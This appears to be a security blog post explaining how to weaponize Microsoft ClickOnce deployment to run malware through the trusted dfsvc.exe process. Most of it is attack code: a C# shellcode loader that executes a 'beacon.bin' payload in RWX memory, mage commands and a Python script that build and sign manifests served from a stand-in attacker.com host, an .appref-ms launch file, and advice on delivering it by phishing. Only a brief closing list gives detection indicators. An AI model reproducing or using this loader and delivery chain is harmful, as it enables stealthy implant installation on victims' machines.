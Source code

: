 ```yaml
---
layout: post
title: "Hijacking ClickOnce"
date: 2024-01-22 19:43:00 +0300
categories: [ClickOnce,PROGRAMMING]
tags: 
pin: false
description: ClickOnce apps launch under the Deployment Service (dfsvc.exe), enabling attackers to proxy execution of malicious payloads through this trusted host.
toc: true
image: /assets/img/ClickOnce/clickonce.jpg
---
```


# Introduction

ClickOnce is a deployment technology that enables you to create self-updating Windows-based applications that can be installed and run with minimal user interaction. Visual Studio provides full support for publishing and updating applications deployed with ClickOnce technology if you have developed your projects with Visual Basic and Visual C#. For information about deploying Visual C++ applications, see ClickOnce Deployment for Visual C++ Applications.



---

# Hijacking ClickOnce for Malware Deployment

ClickOnce is a Microsoft deployment technology allowing near-zero-interaction app installation. Attackers can weaponize it to deploy implants via trusted Windows processes (`dfsvc.exe`).

---

## Why Use ClickOnce

* Minimal user interaction
* Trusted Microsoft dialogs
* Flexible online/offline deployment
* Easy to sign manifests
* Stealth execution via `dfsvc.exe`

---

## Attack Workflow

### 1. Build Malicious .NET Loader

Example C# loader:

```csharp
using System;
using System.Runtime.InteropServices;

class Program
{
    [DllImport("kernel32")]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint size, uint allocType, uint protect);

    [DllImport("kernel32")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint stackSize, IntPtr startAddress, IntPtr param, uint flags, IntPtr threadId);

    [DllImport("msvcrt")]
    static extern IntPtr memcpy(IntPtr dest, byte[] src, uint count);

    static void Main()
    {
        byte[] sc = System.IO.File.ReadAllBytes("beacon.bin");
        IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)sc.Length, 0x3000, 0x40);
        memcpy(addr, sc, (uint)sc.Length);
        CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
    }
}
```

Compile with:

```
csc.exe /platform:anycpu /out:evil.exe loader.cs
```

---

### 2. Create Application Manifest

```powershell
mage -New Application `
  -Processor msil `
  -ToFile evil.exe.manifest `
  -Name "EvilApp" `
  -Version 1.0.0.0 `
  -FromDirectory .
```

---

### 3. (Optional) Sign Manifest

```powershell
mage -Sign evil.exe.manifest -CertFile cert.pfx -Password pass
```

---

### 4. Create Deployment Manifest

```powershell
mage -New Deployment `
  -Processor msil `
  -Install true `
  -Publisher "EvilCorp" `
  -ProviderUrl https://attacker.com/evil.application `
  -AppManifest 1.0.0.0\evil.exe.manifest `
  -ToFile evil.application
```

---

### 5. (Optional) Sign Deployment Manifest

```powershell
mage -Sign evil.application -CertFile cert.pfx -Password pass
```

---

### 6. Append `.deploy` Extensions

Rename files:

```
evil.exe.deploy
```

Edit `.application`:

```xml
<deployment install="true" mapFileExtensions="true"/>
```

---

### 7. Example .appref-ms File

UTF-16 LE encoded content:

```
https://attacker.com/evil.application#EvilApp.application, Culture=neutral, PublicKeyToken=0000000000000000, processorArchitecture=msil
```

Double-clicking triggers install.

---

## Automation Example Script

Python to build manifests automatically:

```python
import subprocess

def build_clickonce():
    subprocess.run([
        "mage",
        "-New", "Application",
        "-Processor", "msil",
        "-ToFile", "evil.exe.manifest",
        "-Name", "EvilApp",
        "-Version", "1.0.0.0",
        "-FromDirectory", "."
    ])

    subprocess.run([
        "mage",
        "-New", "Deployment",
        "-Processor", "msil",
        "-Install", "true",
        "-Publisher", "EvilCorp",
        "-ProviderUrl", "https://attacker.com/evil.application",
        "-AppManifest", "1.0.0.0\\evil.exe.manifest",
        "-ToFile", "evil.application"
    ])

build_clickonce()
```

---

## Deployment Options

* Host `evil.application` online.
* Deliver `.appref-ms` file by phishing or shortcut.
* Zip all files for offline install.

---

## Detection Notes

* Child process: `dfsvc.exe`
* Artifacts in `%LOCALAPPDATA%\Apps\2.0\`
* `.application` and `.manifest` files
* Network to `ProviderUrl`

---

